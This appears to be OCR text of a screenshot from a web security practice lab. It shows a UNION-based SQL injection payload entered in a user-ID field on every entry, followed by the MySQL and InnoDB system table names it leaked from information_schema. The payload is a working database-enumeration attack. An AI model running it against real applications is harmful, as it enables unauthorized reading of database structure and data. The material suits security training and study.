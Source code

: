 Surname: CLIENT_STATISTICS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INDEX_STATISTICS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_DATAFILES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: USER_STATISTICS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_TABLESTATS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_LOCKS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_MUTEXES
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_CMPMEM
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_CMP_PER_INDEX
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_CMP
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_FT_DELETED
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_CMP_RESET
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_LOCK_WAITS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: TABLE_STATISTICS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_TABLESPACES_ENCRYPTION
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_BUFFER_PAGE_LRU
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_FIELDS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_CMPMEM_RESET
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_SYS_COLUMNS
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_FT_INDEX_TABLE
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: INNODB_CMP_PER_INDEX_RESET
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: user_variables